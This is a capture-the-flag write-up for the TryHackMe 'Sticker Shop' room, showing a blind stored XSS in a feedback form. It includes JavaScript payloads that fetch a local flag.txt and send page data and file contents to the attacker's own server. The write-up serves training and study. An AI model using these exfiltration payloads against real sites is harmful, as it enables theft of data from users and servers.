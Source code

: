# The Sticker Shop

[https://tryhackme.com/r/room/thestickershop](https://tryhackme.com/r/room/thestickershop)

## Web App

Since we need to read the `flag.txt` file lets test some functions of the webpage

![image.png](images/image.png)

The usual 401/403 bypass techniques didn’t work so we have to make the `localhost` read the content of `flag.txt` and send to us

### Submit Feedback

Since we have this input page its a good ideia to try to receive the connection of the server using a XSS payload such as `<script src='http://10.9.4.16/'><script>`

First open a python webserver

`sudo python3 -m http.server 08`

Now use that XSS payload using your own IP Address

![image.png](images/image%201.png)

After submitting you should receive this connections meaning that its working

![image.png](images/image%202.png)

Let’s make a payload that will return to use the url that it access our payload

```javascript
<script>
  fetch('http://10.9.4.16/?data=' + btoa(window.location))
    .catch(err => console.log('Error:', err));
</script>
```

Here is the response with the decoded value, meaning that the webapp is locally stored at `http://127.0.0.1:8080`

![image.png](images/image%203.png)

I created this payload that will make a the webserver to request the `flag.txt` file and retrieve to use inside the parameter `data`

```javascript
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://10.9.4.16/?data=' + encodeURIComponent(data))
  })
</script>
```

Here we can see the flag, note that its URL enconded

![image.png](images/image%204.png)
